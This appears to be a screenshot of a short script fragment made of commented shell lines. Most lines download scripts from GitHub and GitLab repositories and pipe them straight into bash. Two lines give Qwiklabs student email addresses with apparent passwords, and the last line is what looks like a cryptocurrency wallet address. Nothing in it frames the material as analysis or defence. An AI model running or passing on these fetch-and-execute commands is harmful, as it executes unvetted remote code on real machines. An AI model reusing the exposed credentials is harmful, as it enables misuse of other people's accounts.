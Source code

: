 # curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/anod.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/ye.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/nis.sh/nis.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/aaa.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/yeni.sh" | bash
# curl -sSL "https://gitlab.com/jasa4/jasa/-/raw/main/kilan" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/kilan" | bash

# student-04-871e8e0fd1ff@qwiklabs.net Fb4zyO6KDdPc
# student-01-8ff4f028ff4b@qwiklabs.net Uub1lN7wxx09
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/scalas.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/mbcmaster.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/vecomaster.sh" | bash
# R9uBfT46Kv9kGa4bbeYRvmoNwYCitp7Hit
